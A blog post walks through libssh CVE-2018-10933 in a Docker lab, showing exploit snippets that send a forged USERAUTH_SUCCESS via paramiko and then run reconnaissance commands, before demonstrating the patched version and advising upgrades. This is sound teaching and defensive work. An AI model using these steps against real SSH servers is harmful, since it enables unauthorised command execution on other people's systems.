:slug: libssh-bypass-cve/
:date: 2018-10-18
:category: attacks
:subtitle: New vulnerability on libssh CVE-2018-10933
:tags: security, bug, libssh, pentesting
:image: cover.png
:alt: Painting a red and blue wall
:description: Libssh is a library to implement SSHv2 protocol on the client and server side. Recently a security analyst discovered a vulnerability that allows a remote attacker to bypass authentication by sending a user-authenticated packet to the server. Here, we are going to explain this vulnerability.
:keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/d6YyP28-Ycw

= LibSSH new Vulnerability

The new vulnerability in +LibSSH+,
tracked as link:https://www.libssh.org/security/advisories/CVE-2018-10933.txt[CVE-2018-10933],
resides on the server code
which can enable a client to bypass the authentication process
and create channels without permission.
This affects servers using versions +0.6+ and above
being used in server mode.

The bug was discovered by Peter Winter-Smith of NCC Group,
it's like a +jedi+ trick:

* User: +Let me in+
* Server: NO
* User: +I'm authenticated, let me in+
* Server: OK, YOU'RE IN

Why does this happen?
Because of the way +LibSSH+ checks for authentication
when it receives an +SSH2_MSG_USERAUTH_SUCCESS+ message
instead of the +SSH2_MSG_USERAUTH_REQUEST+ message.
It acts like the user is already authenticated,
so an attacker could bypass the authentication
and execute commands on the server.

== Building the enviroment

How does LibSSH work?
It's a +C+ library to implement +SSHv2+ protocol
on the client and server side.
First, we need to write our server-side code.
We are going to use the sample that +LibSSH+
has (+samplesshd-cb.c+) and modify it for our purposes.

In the +ssh_channel_callbacks_struct+
we are going to put the following line
in order to have the +exec+ functionality:

.exec request
[source,C]
----
.channel_exec_request_function = exec_request
----

image::channel-exec.png[channel-exec]


Next, add the +exec_request+ function,
this will take our commands and execute them on the server:

[source,C]
----
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
----

If you have +LibSSH+ with version +0.7.4+
you can simply save it, compile it, and execute it.
If not, you can use our method.
We are going to use a +docker+ container
and install both versions
(a vulnerable one and a patched one) and then,
pass our code to the server and run it.
The example files can be downloaded [button]#link:cve201810933.zip[here]#.

To build the container,
open a +terminal+ in the folder of the +Dockerfile+
and run this command:

[source,bash]
----
host$ docker build -t fluidattackscve201810933 .
----

This will download all the necessary files
and compile all the sources of +LibSSH+.

Then, to open the container
simply run this command:

[source,bash]
----
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
----

This is going to mirror our port +2222+
to the container port +2222+ in order to be able to run our tests.
Also, it will open a +bash+ terminal
on the container machine where we will run our +LibSSH+ server.

== Exploiting the vulnerability

In this case, we are going to use +LibSSH v0.7.4+
and test the solution with +LibSSH v0.7.6+.
The +PoC+ is on +Python+ version +2+,
and you can check its source link:https://www.openwall.com/lists/oss-security/2018/10/17/5[here],
but if you downloaded our files,
it's there as +exploit.py+.

In order to run this +PoC+ you will need +paramiko+.
You can install it by running:

[source,bash]
----
host$ pip install paramiko
----

In the container, run the following command
to start the vulnerable +LibSSH+ server:

[source,bash]
----
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

The verbose flag is to see what is sending and receiving our server.

Then, in your machine run the exploit with:

[source,bash]
----
host$ python exploit.py
----

If you check your container
you can see this:

image::ssh-bypass.png[ssh-bypass]

When the server is expecting the +SSH2_MSG_USERAUTH_REQUEST+,
we are sending an +SSH2_MSG_USERAUTH_SUCCESS+.

[source,python]
----
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
----

The server accepts it, and we bypassed the authentication.
Then, we can send our commands to the server with:

[source,python]
----
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
----

image::command-exec.png[command-exec]

== The solution

image::dont-work.png[dont-work]

The LibSSH version +0.7.6+ doesn't have this vulnerability.
We can test it, too, in our container.
We just need to run:

[source,bash]
----
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

And on our machine the exploit again:

[source,bash]
----
host$ python exploit.py
----

image::no-vulnerable.png[no-vulnerable]

What's happening?
We send the +SSH2_MSG_USERAUTH_SUCCESS+.
The server receives it, but it won’t authenticate us
because they added a validation on their code.
When the packet is +SSH2_MSG_USERAUTH_SUCCESS+,
then, it checks for the authentication state.
If it is not one of the valid states, it denies the packet.

.Code on src/packet.c
image::solution.png[solution]

Here you can see the difference between responses
for a vulnerable version and a non-vulnerable one.

.Vulnerable
image::vulnerable.png[vulnerable]

.Non-vulnerable
image::no-vulnerable.png[no-vulnerable2]

If you have +LibSSH+ in your server,
and you are using a server component,
you should install the updated, or patched, versions of +LibSSH+.
